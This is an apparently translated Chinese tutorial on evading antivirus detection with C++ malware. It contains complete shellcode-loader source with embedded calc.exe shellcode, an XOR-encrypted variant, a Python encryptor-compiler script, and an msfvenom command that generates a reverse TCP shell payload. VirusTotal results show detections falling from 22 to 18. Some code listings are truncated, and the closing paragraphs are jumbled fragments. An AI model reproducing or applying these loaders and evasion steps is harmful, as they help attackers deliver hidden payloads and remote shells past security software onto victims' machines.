\newpage
\subsection{针对简单 C++ 恶意软件的 AV 引擎规避}

﷽

{width="80%"}

AV 规避对红队和渗透测试人员来说一直是个挑战，尤其是对于那些编写恶意软件的人。

在本教程中，我们将用 C++ 编写一个简单的恶意软件，它会启动我们的载荷：`calc.exe` 进程。

我们从恶意软件的简单 C++ 代码开始：

```cpp
/*
cpp implementation malware example with calc.exe payload
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
unsigned int my_payload_len = sizeof(my_payload);

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

  // run payload
  th = CreateThread(0, 0, 
  (LPTHREAD_START_ROUTINE) my_payload_mem, 
  0, 0, 0);
  WaitForSingleObject(th, -1);
  }
  return 0;

```

所以我们只有一个 `main(void)` 函数：

{width="80%"}

以及 `sizeof(my_payload)` 得到的载荷大小。

为了简单起见，我们用 `calc.exe` 作为载荷。

```cpp
unsigned char my_payload[] = {
  0xfc, 0x48, 0x83, 0xe4, 0xf0, 0xe8, 0xc0, 0x00, 0x00, 0x00, 
  0x41, 0x51, 0x41, 0x50, 0x52, 0x51, 0x56, 0x48, 0x31, 0xd2, 
  0x65, 0x48, 0x8b, 0x52, 0x60, 0x48, 0x8b, 0x52, 0x18, 0x48, 
  0x8b, 0x52, 0x20, 0x48, 0x8b, 0x72, 0x50, 0x48, 0x0f, 0xb7, 
  0x4a, 0x4a, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0, 0xac, 0x3c, 
  0x61, 0x7c, 0x02, 0x2c, 0x20, 0x41, 0xc1, 0xc9, 0x0d, 0x41,
  0x01, 0xc1, 0xe2, 0xed, 0x52, 0x41, 0x51, 0x48, 0x8b, 0x52,
  0x20, 0x8b, 0x42, 0x3c, 0x48, 0x01, 0xd0, 0x8b, 0x80, 0x88, 
  0x00, 0x00, 0x00, 0x48, 0x85, 0xc0, 0x74, 0x67, 0x48, 0x01, 
  0xd0, 0x50, 0x8b, 0x48, 0x18, 0x44, 0x8b, 0x40, 0x20, 0x49, 
  0x01, 0xd0, 0xe3, 0x56, 0x48, 0xff, 0xc9, 0x41, 0x8b, 0x34, 
  0x88, 0x48, 0x01, 0xd6, 0x4d, 0x31, 0xc9, 0x48, 0x31, 0xc0,
  0xac, 0x41, 0xc1, 0xc9, 0x0d, 0x41, 0x01, 0xc1, 0x38, 0xe0, 
  0x75, 0xf1, 0x4c, 0x03, 0x4c, 0x24, 0x08, 0x45, 0x39, 0xd1, 
  0x75, 0xd8, 0x58, 0x44, 0x8b, 0x40, 0x24, 0x49, 0x01, 0xd0, 
  0x66, 0x41, 0x8b, 0x0c, 0x48, 0x44, 0x8b, 0x40, 0x1c, 0x49, 
  0x01, 0xd0, 0x41, 0x8b, 0x04, 0x88, 0x48, 0x01, 0xd0, 0x41, 
  0x58, 0x41, 0x58, 0x5e, 0x59, 0x5a, 0x41, 0x58, 0x41, 0x59,
  0x41, 0x5a, 0x48, 0x83, 0xec, 0x20, 0x41, 0x52, 0xff, 0xe0, 
  0x58, 0x41, 0x59, 0x5a, 0x48, 0x8b, 0x12, 0xe9, 0x57, 0xff, 
  0xff, 0xff, 0x5d, 0x48, 0xba, 0x01, 0x00, 0x00, 0x00, 0x00, 
  0x00, 0x00, 0x00, 0x48, 0x8d, 0x8d, 0x01, 0x01, 0x00, 0x00, 
  0x41, 0xba, 0x31, 0x8b, 0x6f, 0x87, 0xff, 0xd5, 0xbb, 0xf0, 
  0xb5, 0xa2, 0x56, 0x41, 0xba, 0xa6, 0x95, 0xbd, 0x9d, 0xff,
  0xd5, 0x48, 0x83, 0xc4, 0x28, 0x3c, 0x06, 0x7c, 0x0a, 0x80, 
  0xfb, 0xe0, 0x75, 0x05, 0xbb, 0x47, 0x13, 0x72, 0x6f, 0x6a, 
  0x00, 0x59, 0x41, 0x89, 0xda, 0xff, 0xd5, 0x63, 0x61, 0x6c, 
  0x63, 0x2e, 0x65, 0x78, 0x65, 0x00
};
```

而 `main` 函数的主要逻辑是：

{width="80%"}

如果你想在进程的内存中运行我们的载荷，我们必须做几件事：创建一个新的内存缓冲区，把载荷复制进缓冲区，然后开始执行这个缓冲区。

第一步，我们在进程中分配一块新的内存区域，并把地址存入 `my_payload_mem` 变量：

{width="80%"}

这块内存区域是可读可写的。

然后，我们把 `my_payload` 复制到 `my_payload_mem`：

{width="80%"}

接着我们把缓冲区设置为可执行：

{width="80%"}

好，一切都没问题，但我为什么不写成 44 行呢？

{width="80%"}

为什么不直接分配一块既可读、可写又可执行的缓冲区？

一些狩猎工具和 AV 引擎能够发现这块内存区域，因为进程同时需要一块可读、可写、可执行的内存是非常不寻常的。

如果一切顺利，我们就把载荷作为进程中独立的新线程来运行：

{width="80%"}

我们来编译我们的恶意软件：

{width="80%"}

然后运行（在 Windows 10 x64 上）：

{width="80%"}

所以，基本上这就是你如何在不加加密的情况下把载荷存储在 `.text` 段中的方法。

我们把我们的 `evil.exe` 上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/c9c49dbbb0a668df053d0ab788f9dde2d9e59c31672b5d296bb1e8309d7e0dfe/detection>

所以，66 个 AV 引擎中有 22 个把我们的文件检测为恶意。

我们来尝试减少会检测到我们恶意软件的 AV 引擎数量。

为什么要加密载荷？这样做的根本目的是把你的载荷对 AV 引擎或逆向工程师这样的人隐藏起来，让逆向工程师无法轻易识别你的载荷。

为了简单起见，我们在我们的例子里使用 XOR 加密。

我们来看看如何用 XOR 加密和解密我们的载荷。

更新我们简单的恶意软件代码：

```cpp
/*
cpp implementation malware 
example with calc.exe payload 
encrypted via XOR
*/
#include <windows.h>
#include <stdio.h>
#include <stdlib.h>
#include <string.h>

// our payload calc.exe
unsigned char my_payload[] = {};
unsigned int my_payload_len = sizeof(my_payload);

// key for XOR decrypt
char my_secret_key[] = "mysupersecretkey";

// decrypt deXOR function
void XOR(char * data, size_t data_len, char * key, 
size_t key_len) {
  int j;
  j = 0;
  for (int i = 0; i < data_len; i++) {
  if (j == key_len - 1) j = 0;
  data[i] = data[i] ^ key[j];
  j++;
  }

int main(void) {
  void * my_payload_mem; // memory buffer for payload
  BOOL rv;
  HANDLE th;
  DWORD oldprotect = 0;

  // Allocate a memory buffer for payload
  my_payload_mem = VirtualAlloc(0, my_payload_len, 
  MEM_COMMIT | MEM_RESERVE, PAGE_READWRITE);

  // Decrypt (DeXOR) the payload
  XOR((char *) my_payload, my_payload_len, 
  my_secret_key, sizeof(my_secret_key));

  // copy payload to buffer
  RtlMoveMemory(my_payload_mem, my_payload, 
  my_payload_len);

  // make new buffer as executable
  rv = VirtualProtect(my_payload_mem, 
  my_payload_len, 
  PAGE_EXECUTE_READ, &oldprotect);
  if ( rv != 0 ) {

  // run payload
  th = CreateThread(0, 0, 
  (LPTHREAD_START_ROUTINE) my_payload_mem, 
  0, 0, 0);
  WaitForSingleObject(th, -1);
  }
  return 0;

```

以及用于解密的密钥 `my_secret_key`：

{width="80%"}

这实际上是个简单的函数，它是对称加密，我们可以用同一个密钥来加密和解密。

在复制到缓冲区之前，我们对载荷做 deXOR：

{width="80%"}

唯一还缺的就是我们的载荷：

{width="80%"}

它应该用 XOR 加密。

为此，我们创建一个简单的 python 脚本，加密载荷并把它替换进我们的 C++ 模板：

```python
import sys
import os
import hashlib
import string

## XOR function to encrypt data
def xor(data, key):
  key = str(key)
  l = len(key)
  output_str = ""

  for i in range(len(data)):
  current = data[i]
  current_key = key[i % len(key)]
  ordd = lambda x: x if isinstance(x, int) else ord(x)
  output_str += chr(ordd(current) ^ ord(current_key))
  return output_str

## encrypting
def xor_encrypt(data, key):
  ciphertext = xor(data, key)
  ciphertext = '{ 0x' + ', 0x'.
  join(hex(ord(x))[2:] for x in ciphertext) + ' };'
  print (ciphertext)
  return ciphertext, key

## key for encrypt/decrypt
my_secret_key = "mysupersecretkey"

## payload calc.exe
plaintext = open("./calc.bin", "rb").read()

ciphertext, p_key = xor_encrypt(plaintext, my_secret_key)

## open and replace our payload in C++ code
tmp = open("evil_xor.cpp", "rt")
data = tmp.read()
data = data.replace('unsigned char my_payload[] = { };', 
'unsigned char my_payload[] = ' + ciphertext)
tmp.close()
tmp = open("evil-enc.cpp", "w+")
tmp.write(data)
tmp.close()

## compile
try:
  cmd = "x86_64-w64-mingw32-gcc evil-enc.cpp"
  cmd += "-o evil.exe -s -ffunction-sections"
  cmd += "-fdata-sections -Wno-write-strings"
  cmd += " -fno-exceptions -fmerge-all-constants"
  cmd += "-static-libstdc++ -static-libgcc"
  cmd += " >/dev/null 2>&1"
  os.system(cmd)
except:
  print ("error compiling malware template :(")
  sys.exit()
else:
  print (cmd)
  print ("successfully compiled :)")

```

为了简单起见，我们使用 `calc.bin` 载荷：

{width="80%"}

但在真实场景中，你可以用类似这样的东西：

```bash
msfvenom -p windows/x64/shell_reverse_tcp \
LHOST=10.9.1.6 LPORT=4444 -f raw -o hack.bin
```

运行 python 脚本：

```bash
python3 evil_enc.py
```

{width="80%"}

然后在受害机器上运行（Windows 10 x64）：

{width="80%"}

我们把带加密载荷的新 `evil.exe` 上传到 VirusTotal：

{width="80%"}

<https://www.virustotal.com/gui/file/c7393080957780bb88f7ab1fa2d19bdd1d99e9808efbfaf7989e1e15fd9587ca/detection>

所以，我们把检测到我们恶意软件的 AV 引擎数量从 22 个减少到了 18 个！

Source code in Github

VirtualAlloc

RtlMoveMemory

VirtualProtect

WaitForSingleObject

CreateThread

XOR

在下一部分中，我会写如何用函数调用混淆技术进一步减少检测数量。

然后我们通过 VirusTotal 检查有多少 AV 引擎检测到我们的恶意软件，之后再尝试减少会检测到我们恶意软件的 AV 引擎数量。

这里不深入讨论载荷的生成，我们直接把做好的载荷替换进代码：

我们来分析这段逻辑。

原因很简单。

所以为了绕过这类检测，我们采用两步走。

首先我们必须加密我们的载荷。

加密的目的是转换数据，以使其对他人保密。

与我们第一个简单实现的主要区别是——我们加入了 XOR 解密函数。
